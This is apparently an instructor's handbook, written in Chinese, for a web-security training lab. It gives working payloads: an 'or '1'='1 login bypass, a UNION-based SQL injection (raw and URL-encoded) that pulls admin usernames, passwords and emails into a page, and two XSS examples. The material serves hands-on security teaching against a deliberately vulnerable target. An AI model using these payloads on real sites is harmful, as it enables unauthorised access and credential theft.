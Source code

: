 # 讲师手册

## 靶场与环境准备

## 实战部分
### 1. sql 注入部分
#### 注入登录 
密码 `'or '1'='1`
#### 注入拿到admin用户密码
在搜索框注入：
```sql
%' or 1=1 or title like '%%' union select uid, uid as aid,  username as title, password as content, email as author_name, password as tags, create_time as create_time, create_time as update_time,uid as del from user where username like '%admin
```
需要进行url encode, url encode 之后为：
```
%25%27%20or%201%3D1%20or%20title%20like%20%27%25%25%27%20union%20select%20uid%2C%20uid%20as%20aid%2C%20%20username%20as%20title%2C%20password%20as%20content%2C%20email%20as%20author_name%2C%20password%20as%20tags%2C%20create_time%20as%20create_time%2C%20create_time%20as%20update_time%2Cuid%20as%20del%20from%20user%20where%20username%20like%20%27%25admin
```
这样密码会出现在文章列表中。

然后使用admin用户名密码登录。

### XSS 注入：
#### juice-shop 同款漏洞
```html
<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>
```

#### 脚本注入：
```html
<a href="javascript: alert(1)">Click me!</a>
```
